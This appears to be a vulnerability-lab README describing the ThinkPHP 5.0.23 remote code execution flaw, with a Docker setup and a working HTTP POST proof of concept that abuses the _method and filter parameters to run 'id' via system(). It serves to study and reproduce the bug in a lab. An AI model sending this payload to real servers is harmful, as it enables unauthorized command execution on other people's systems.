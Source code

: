 # ThinkPHP5 5.0.23 Remote Code Execution Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

ThinkPHP is an extremely widely used PHP development framework in China. In its version 5.0(<5.0.24), while obtaining the request method, the framework processes it incorrectly, which allows an attacker to call any method of the Request class, resulting in a RCE vulnerability through a specific exploit chain.

References：

- https://github.com/top-think/framework/commit/4a4b5e64fa4c46f851b4004005bff5f3196de003

## Environment Setup

Enter the following command：(ThinkPHP version: 5.0.23)

```
docker compose up -d
```

Visit `http://your-ip:8080` and you'll see the default page of ThinkPHP.

## POC

Send the packets and execute the command `id`:

```
POST /index.php?s=captcha HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

![](1.png)
